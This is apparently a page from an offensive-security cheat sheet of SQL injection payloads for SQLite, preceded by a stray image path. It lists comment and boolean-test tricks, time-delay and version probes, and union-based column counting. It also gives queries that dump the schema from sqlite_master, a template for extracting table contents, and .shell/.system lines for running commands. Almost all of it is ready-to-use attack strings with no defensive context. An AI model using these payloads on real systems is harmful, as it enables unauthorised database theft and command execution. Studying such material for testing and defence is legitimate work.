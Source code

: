 ```
```

<span style="color:#21C587">&#35;</span><strong> SQLite</strong><br>
```
- comments
--, /**/

- length check
length()

- like
1=1, 1 in(1), 1 like 1, 1==1, !(1<>1)

- version check
sqlite_version()

- string split
substr()

- add string
||, concat()

- sleep func
sqlite3_sleep()

- Conditional
case when 1=1 then 1 else 0 end

- limit
limit <count>
limit <skip>, <count>
limit <count> offset <skip>

- Number of columns
' order by 1 --
' order by 2 --
' order by 3 --
' union null --
' union null, null --
' union null, null, null --

- string to hex
unicode()

- select bypass
select 1 = values(1)
select 'admin' = values('admin')

- command injection
.sh ls, .shell ls, .system ls

- etc
select group_concat(sql), group_concat(name) from sqlite_master
union select group_concat(<column_name>), group_concat(<column_name>), null, null from <table_name>
```

